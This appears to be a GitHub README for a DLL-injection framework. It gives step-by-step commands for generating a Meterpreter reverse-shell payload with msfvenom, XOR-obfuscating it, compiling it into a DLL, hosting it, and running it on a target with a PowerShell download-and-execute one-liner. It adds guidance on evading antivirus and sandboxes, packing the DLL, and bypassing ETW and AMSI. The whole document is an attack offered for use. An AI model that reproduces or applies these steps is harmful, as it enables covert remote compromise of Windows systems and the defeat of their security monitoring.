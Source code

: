 # DLL Injection

This repository provides a framework for performing DLL injection with a Meterpreter payload generated using MSFVenom. It includes XOR encryption for shellcode obfuscation and techniques to evade detection by AV and sandbox environments. The repository consists of a helper program and the main injection code.

## Overview

The goal of this project is to inject a reverse shell (Meterpreter) into a target system by executing a DLL that contains obfuscated shellcode. The process includes:

1. **Generating a payload using MSFVenom**.
2. **Encrypting the shellcode using XOR**.
3. **Compiling the payload into a DLL**.
4. **Hosting the DLL and a PowerShell dropper script**.
5. **Executing the payload remotely using a dropper**.
6. **Utilizing evasion techniques** to bypass AV and sandbox detection.

## Steps

### 1. Generate a Meterpreter Payload

Create a Meterpreter reverse TCP payload using MSFVenom:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.XX LPORT=443 -f csharp
```

- **LHOST**: Replace `192.168.1.XX` with your listener IP.
- **LPORT**: The port for reverse connection (use `443` or any other available port).

The generated C# shellcode will be obfuscated using XOR encryption in the following steps.

### 2. Shellcode Encryption

Place the generated shellcode into the helper file (`xorDLLHelper.cs`) for XOR encryption. Modify the XOR key to customize the obfuscation and update the DLL injection program accordingly.

### 3. Compile the DLL

Once the shellcode is encrypted, compile the DLL injection code into a dynamic link library (DLL):

```bash
sudo csc /target:library /out:runner.dll runner.cs
```

This command compiles the main injection code (`runner.cs`) into `runner.dll`, containing the encrypted shellcode.

### 4. Host the DLL and PowerShell Script

To deliver the payload remotely, host both the compiled `runner.dll` and the PowerShell script (`runner.ps1`) on a web server. You can use Python’s built-in HTTP server for this:

```bash
python3 -m http.server 80
```

Ensure that both files are available on the web server, accessible via the appropriate URL.

### 5. Dropper Execution

Use a PowerShell command to download and execute the payload remotely on the target system:

```powershell
iex(new-object net.webclient).downloadstring('http://<YourIP>/runner.ps1')
```

Replace `<YourIP>` with the IP address of the server hosting the DLL and PowerShell script.

### Evasion Techniques

The code includes techniques to evade AV and sandbox detection:

- **XOR Encryption**: Shellcode is encrypted using XOR to evade signature-based detection by AV solutions.
- **Behavior-based Detection Evasion**: The injection program may include time delays to bypass behavior-based detection systems that rely on immediate execution patterns.
- **Sandbox Evasion**: Time delays or specific checks are implemented to prevent the payload from executing in virtualized or sandboxed environments, ensuring that sandbox detection systems fail to detect malicious behavior.

### 6. Packing and Obfuscation

If the payload is caught by AV, additional tools can be used to pack and obfuscate the DLL. Consider using tools like `ConfuserEx` or `Themida` for further packing and protection. You can also implement additional bypasses such as:

- **No ETW**: Disabling Event Tracing for Windows (ETW) to evade monitoring.
- **No AMSI**: Bypassing the Anti-Malware Scan Interface (AMSI) to prevent runtime detection.
  
## Conclusion

This repository provides a framework for deploying obfuscated Meterpreter payloads via DLL injection. By incorporating XOR encryption and advanced evasion techniques, this approach can bypass both signature-based and behavior-based detection systems.
